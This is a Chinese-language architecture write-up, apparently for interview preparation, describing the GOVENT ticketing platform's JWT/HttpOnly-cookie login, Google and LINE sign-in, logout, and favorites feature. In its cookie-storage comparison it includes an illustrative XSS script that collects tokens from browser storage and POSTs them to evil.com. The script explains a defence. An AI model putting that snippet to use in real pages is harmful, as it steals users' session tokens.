





# GOVENT 登入系統完整架構說明

## 📋 **系統概覽**

GOVENT 是一個活動票券平台，採用前後端分離架構：
- **前端**：Next.js + React（Pages Router）
- **後端**：Node.js + Express + Sequelize
- **資料庫**：MySQL  
- **認證方式**：JWT + HttpOnly Cookie

---

## 🔐 **認證系統架構**

### **1. 認證流程概述**



### **2. 支援的登入方式**

#### **A. 一般登入 (用戶名/密碼)**
```javascript
// 路由：POST /api/user/signin
// 位置：govent-backend/routes/user.js

const token = jwt.sign({
  id: user[0].id,
  username: user[0].username,
  name: user[0].name,
  // ... 其他用戶資料
}, process.env.JWT_SECRET_KEY, { expiresIn: '120m' })

res.cookie('auth_token', token, {
  httpOnly: true,
  secure: true,
  sameSite: 'none',
  maxAge: 24 * 60 * 60 * 1000 // 24小時
})
```

#### **B. Google 登入 (Firebase)**
```javascript
// 前端：hooks/firebase-google-auth.js
const signInWithGoogle = async () => {
  const res = await signInWithPopup(auth, provider)
  const googleUser = {
    google_uid: user.uid,
    name: user.displayName,
    email: user.email,
    photo_url: user.photoURL,
  }
  
  // 發送到後端驗證並建立/更新用戶
  const response = await fetch('/api/user/googleSignIn', {
    method: 'POST',
    body: JSON.stringify({ googleUser }),
    credentials: 'include'
  })
}
```

#### **C. LINE 登入 (OAuth2)**
```javascript
// 後端：services/line-login.js
// 使用 LINE Login SDK 處理 OAuth2 流程
auth() {
  return (req, res, next) => {
    let state = (req.session.line_login_state = LineLogin._random())
    let nonce = (req.session.line_login_nonce = LineLogin._random())
    let url = this.make_auth_url(state, nonce)
    return res.redirect(url)
  }
}
```

---

## 🏗️ **前端狀態管理架構**

### **1. AuthProvider 架構**

```javascript
// 位置：hooks/use-auth.js
export const AuthProvider = ({ children }) => {
  const [auth, setAuth] = useState({
    isAuthenticated: false,
    user: null,
  })
  
  const [favorites, setFavorites] = useState([])
  
  // 認證相關方法
  const verifyToken = async () => { /* 驗證JWT */ }
  const signIn = async () => { /* 登入處理 */ }
  const signOut = async () => { /* 登出處理 */ }
  
  return (
    <AuthContext.Provider value={{
      auth, signIn, signOut, favorites, setFavorites
    }}>
      {children}
    </AuthContext.Provider>
  )
}
```

### **2. Provider 層級結構**

```javascript
// 位置：pages/_app.js
export default function MyApp({ Component, pageProps }) {
  return (
    <AuthProvider>                    // 最外層：認證狀態
      <GoogleAuthAuthProvider>        // Google 登入管理
        <LoaderProvider>              // 載入動畫
          <CartProvider>              // 購物車狀態
            {getLayout(<Component />)}
          </CartProvider>
        </LoaderProvider>
      </GoogleAuthAuthProvider>
    </AuthProvider>
  )
}
```

### **3. 狀態傳遞機制**

#### **認證狀態檢查**
```javascript
// 頁面載入時自動驗證
useEffect(() => {
  verifyToken() // 向後端驗證 auth_token cookie
}, [])

// 驗證函數
const verifyToken = async () => {
  try {
    const response = await fetch('/api/user/verifyToken', {
      credentials: 'include' // 攜帶 HttpOnly Cookie
    })
    
    if (response.ok) {
      const { user } = await response.json()
      setAuth({ isAuthenticated: true, user })
    }
  } catch (error) {
    setAuth({ isAuthenticated: false, user: null })
  }
}
```

#### **跨元件狀態使用**
```javascript
// 任何元件中使用認證狀態
import { useAuth } from '@/hooks/use-auth'

function SomeComponent() {
  const { auth, favorites, signOut } = useAuth()
  
  if (!auth.isAuthenticated) {
    return <div>請先登入</div>
  }
  
  return <div>歡迎，{auth.user.name}</div>
}
```

---

## 🚪 **登出系統**

### **1. 登出流程**



### **2. 登出實現**

```javascript
// 前端登出處理
const signOut = async () => {
  try {
    await fetch('/api/user/signout', {
      method: 'GET',
      credentials: 'include'
    })
    
    setAuth({ isAuthenticated: false, user: null })
    setFavorites([]) // 清空收藏清單
    
    setTimeout(() => {
      router.push('/')
    }, 3000)
  } catch (error) {
    console.error('登出錯誤', error)
  }
}

// 後端登出處理
router.get('/signout', (req, res) => {
  res.clearCookie('auth_token', {
    httpOnly: true,
    secure: true,
    sameSite: 'none',
  })
  res.json({ message: 'User has signed out', user: null })
})
```

---

## ❤️ **Favorites (我的最愛) 功能**

### **1. Favorites 系統架構**



### **2. 資料庫設計**

```sql
-- favorites 資料表
CREATE TABLE favorites (
  id INT PRIMARY KEY AUTO_INCREMENT,
  uid INT NOT NULL,        -- 用戶ID
  pid INT NOT NULL,        -- 活動ID  
  created_at TIMESTAMP,
  updated_at TIMESTAMP,
  UNIQUE KEY unique_fav (uid, pid)  -- 防止重複收藏
);
```

### **3. API 端點**

#### **A. 獲取用戶收藏清單**
```javascript
// GET /api/favorites
router.get('/', authenticate, async (req, res) => {
  const pids = await Favorite.findAll({
    attributes: ['pid'],
    where: { uid: req.user.id },
    raw: true
  })
  
  const favorites = pids.map((v) => v.pid)
  res.json({ status: 'success', data: { favorites } })
})
```

#### **B. 新增收藏**
```javascript
// PUT /api/favorites/:id
router.put('/:id', authenticate, async (req, res) => {
  const pid = getIdParam(req)
  const uid = req.user.id

  // 檢查是否已存在
  const existFav = await Favorite.findOne({ where: { pid, uid } })
  if (existFav) {
    return res.json({ status: 'error', message: '資料已經存在' })
  }

  const newFav = await Favorite.create({ pid, uid })
  return res.json({ status: 'success', data: null })
})
```

#### **C. 移除收藏**
```javascript
// DELETE /api/favorites/:id
router.delete('/:id', authenticate, async (req, res) => {
  const pid = getIdParam(req)
  const uid = req.user.id

  const affectedRows = await Favorite.destroy({
    where: { pid, uid }
  })

  if (!affectedRows) {
    return res.json({ status: 'error', message: '刪除失敗' })
  }

  return res.json({ status: 'success', data: null })
})
```

### **4. 前端 Favorites 狀態管理**

```javascript
// AuthProvider 中的 Favorites 管理
const [favorites, setFavorites] = useState([])

// 登入成功後自動載入
useEffect(() => {
  if (auth.isAuthenticated) {
    handleGetFavorites()
  } else {
    setFavorites([])
  }
}, [auth.isAuthenticated])

// 獲取收藏清單
const handleGetFavorites = async () => {
  try {
    const res = await getFavs()
    if (res.data.status === 'success') {
      setFavorites(res.data.data.favorites)
    }
  } catch (error) {
    console.error('獲取收藏失敗:', error)
    setFavorites([])
  }
}
```

### **5. FavIcon 元件實現**

```javascript
// components/layout/list-layout/fav-icon.js
export default function FavIcon({ pid }) {
  const { auth, favorites, setFavorites } = useAuth()

  // 切換收藏狀態的本地處理
  const handleTriggerFav = (pid) => {
    const favArray = favorites || []
    if (favArray.includes(pid)) {
      setFavorites(favArray.filter((v) => v !== pid))
    } else {
      setFavorites([...favArray, pid])
    }
  }

  // 新增收藏
  const handleAddFav = async (pid) => {
    try {
      const res = await addFav(pid)
      if (res.data.status === 'success') {
        handleTriggerFav(pid)
        toast.success(`新增收藏成功!`)
      }
    } catch (error) {
      toast.error(`收藏失敗: ${error.message}`)
    }
  }

  // 移除收藏
  const handleRemoveFav = async (pid) => {
    try {
      const res = await removeFav(pid)
      if (res.data.status === 'success') {
        handleTriggerFav(pid)
        toast.success(`移除收藏成功!`)
      }
    } catch (error) {
      toast.error(`取消收藏失敗: ${error.message}`)
    }
  }

  return (
    <>
      {(favorites || []).includes(pid) ? (
        <button onClick={() => {
          if (!auth.isAuthenticated) return toast.error('會員才能使用!')
          handleRemoveFav(pid)
        }}>
          <HeartFilled />
        </button>
      ) : (
        <button onClick={() => {
          if (!auth.isAuthenticated) return toast.error('會員才能使用!')
          handleAddFav(pid)
        }}>
          <HeartOutlined />
        </button>
      )}
    </>
  )
}
```

---

## 🍪 **Cookie 存儲機制詳解**

### **1. JWT 存儲方式比較**

#### **存儲方式對比表**

| 存儲方式 | JavaScript可讀取 | XSS防護 | 自動傳送 | 持續時間 | 容量限制 | 安全等級 |
|---------|----------------|---------|----------|----------|----------|----------|
| **HttpOnly Cookie**  | ❌ 否 | ✅ 高防護 | ✅ 自動 | 服務器控制 | ~4KB | 🔒 最高 |
| **一般 Cookie**       | ✅ 是 | ❌ 脆弱 | ✅ 自動 | 設定控制 | ~4KB | ⚠️ 中等 |
| **Local Storage**    | ✅ 是 | ❌ 脆弱 | ❌ 手動 | 永久保存 | ~5-10MB | ⚠️ 低 |
| **Session Storage**  | ✅ 是 | ❌ 脆弱 | ❌ 手動 | 會話期間 | ~5-10MB | ⚠️ 低 |

#### **A. HttpOnly Cookie（當前使用）**
```javascript
// 後端設置 - 最安全的方式
res.cookie('auth_token', token, {
  httpOnly: true,        // ⭐ 關鍵：JavaScript 無法讀取
  secure: true,          // 只在 HTTPS 下傳輸
  sameSite: 'none',      // 跨域設置
  maxAge: 24 * 60 * 60 * 1000 // 24小時
})

// 前端使用 - 自動攜帶
fetch('/api/protected', {
  credentials: 'include'  // Cookie 自動攜帶，無需手動處理
})

// ❌ 前端無法讀取或竄改
console.log(document.cookie) // 看不到 HttpOnly Cookie
```

#### **B. 一般 Cookie**
```javascript
// 前端可以設置和讀取 - 不安全
document.cookie = "auth_token=jwt123; expires=Thu, 18 Dec 2024 12:00:00 UTC"

// ❌ XSS 攻擊可以輕易竊取
console.log(document.cookie) // 可以看到: "auth_token=jwt123"
// 惡意腳本可以竊取 token
const stolenToken = document.cookie.match(/auth_token=([^;]+)/)[1]
```

#### **C. Local Storage**
```javascript
// 前端操作 - 最不安全
localStorage.setItem('token', 'jwt_token_here')
const token = localStorage.getItem('token')

// ❌ XSS 攻擊風險最高
// 惡意腳本可以直接存取
const stolenToken = localStorage.getItem('token')
```

#### **D. Session Storage**
```javascript
// 前端操作 - 會話限制但仍不安全
sessionStorage.setItem('token', 'jwt_token_here')
const token = sessionStorage.getItem('token')

// ❌ 同樣容易受 XSS 攻擊
const stolenToken = sessionStorage.getItem('token')
```

### **2. 為什麼選擇 HttpOnly Cookie？**

#### **安全性比較**
```javascript
// ❌ 不安全的方式 (Local/Session Storage + 一般Cookie)
// XSS 攻擊可以輕易竊取 Token
<script>
  // 惡意腳本範例
  const tokenLS = localStorage.getItem('token')        // Local Storage
  const tokenSS = sessionStorage.getItem('token')     // Session Storage  
  const tokenCookie = document.cookie.match(/token=([^;]+)/)[1] // 一般Cookie
  
  // 發送到攻擊者服務器
  fetch('https://evil.com/steal', { 
    method: 'POST', 
    body: JSON.stringify({ tokenLS, tokenSS, tokenCookie })
  })
</script>

// ✅ 安全的方式 (HttpOnly Cookie)
// JavaScript 完全無法讀取，即使有 XSS 也無法竊取
console.log(document.cookie) // 看不到 HttpOnly Cookie
document.cookie = "auth_token=hacked; httpOnly=true" // 無法設置
```

#### **實際運作差異**

**HttpOnly Cookie 流程：**


**Local Storage 流程：**


### **3. GOVENT 系統的安全實現**

```javascript
// 後端：安全的 Cookie 設置
router.post('/signin', async (req, res) => {
  // 驗證用戶...
  const token = jwt.sign(userData, process.env.JWT_SECRET_KEY, { 
    expiresIn: '120m' 
  })

  // 設置 HttpOnly Cookie - 最高安全等級
  res.cookie('auth_token', token, {
    httpOnly: true,        // 防止 JavaScript 讀取
    secure: true,          // 只在 HTTPS 下傳輸  
    sameSite: 'none',      // 跨域請求支援
    maxAge: 24 * 60 * 60 * 1000  // 24小時過期
  })
})

// 認證中介軟體：安全的 Token 讀取
export default function authenticate(req, res, next) {
  const token = req.cookies['auth_token']  // 只有服務器能讀取
  
  if (!token) {
    return res.status(401).json({ error: 'Access token is missing' })
  }

  try {
    const user = jwt.verify(token, process.env.JWT_SECRET_KEY)
    req.user = user
    next()
  } catch (err) {
    return res.status(403).json({ error: 'Invalid access token' })
  }
}

// 前端：無需手動處理 Token
const verifyToken = async () => {
  const response = await fetch('/api/user/verifyToken', {
    credentials: 'include'  // 自動攜帶 HttpOnly Cookie
  })
  // 無需手動設置 Authorization Header
}
```

## 🔒 **安全性措施**

### **1. JWT Token 安全**
- **HttpOnly Cookie**：防止 XSS 攻擊，JavaScript 無法讀取
- **Secure Flag**：HTTPS 環境下才傳輸
- **SameSite=none**：跨域請求支援
- **Token 過期時間**：120分鐘自動過期

### **2. 認證中介軟體**
```javascript
// middlewares/authenticate.js
export default function authenticate(req, res, next) {
  const token = req.cookies['auth_token']
  
  if (!token) {
    return res.status(401).json({ error: 'Access token is missing' })
  }

  try {
    const user = jsonwebtoken.verify(token, process.env.JWT_SECRET_KEY)
    req.user = user
    next()
  } catch (err) {
    return res.status(403).json({ error: 'Invalid access token' })
  }
}
```

### **3. 路由保護**
```javascript
// 受保護的 API 路由都需要 authenticate 中介軟體
router.get('/favorites', authenticate, async (req, res) => {
  // 只有已認證用戶才能存取
})
```

---

## 📱 **用戶體驗設計**

### **1. 自動登入狀態檢查**
- 頁面載入時自動驗證 Token
- Token 有效：自動登入並載入用戶資料
- Token 無效：保持登出狀態

### **2. 即時狀態更新**
- 登入後立即載入 Favorites
- 愛心圖示即時反應收藏狀態
- 登出時清除所有用戶相關狀態

### **3. 錯誤處理**
- 網路錯誤的友善提示
- 登入失敗的明確訊息
- 收藏操作的即時回饋

---

## 🔧 **技術特點總結**

### **優點**
1. **安全性高**：HttpOnly Cookie + JWT
2. **狀態集中管理**：React Context 統一管理認證狀態
3. **多元登入方式**：支援一般/Google/LINE 登入
4. **即時性**：Favorites 狀態即時更新
5. **用戶體驗佳**：自動登入檢查 + 友善錯誤處理

### **架構設計**
1. **前後端分離**：清楚的 API 界面
2. **模組化設計**：每個功能獨立的 Hook 和元件
3. **可擴展性**：容易新增其他認證方式
4. **維護性**：清楚的程式碼結構和錯誤處理

---

## 📋 **面試重點說明**

### **系統設計亮點**
1. **安全認證機制**：使用業界標準的 JWT + HttpOnly Cookie
2. **狀態管理策略**：React Context 集中管理，避免 prop drilling
3. **用戶體驗優化**：自動登入檢查、即時狀態更新
4. **多元登入支援**：整合多種第三方登入服務
5. **錯誤處理完善**：各層級的錯誤捕獲和用戶提示

### **技術深度展現**
1. **前端架構**：Next.js Pages Router + React Context
2. **後端架構**：Express + Sequelize ORM + JWT
3. **資料庫設計**：正規化設計、唯一約束防重複
4. **安全考量**：CORS、Cookie 安全設定、Token 驗證
5. **代碼品質**：模組化、可重用元件、清楚的錯誤處理

---

*此文件完整描述了 GOVENT 平台的登入系統架構，展現了從前端到後端的完整技術實現。* 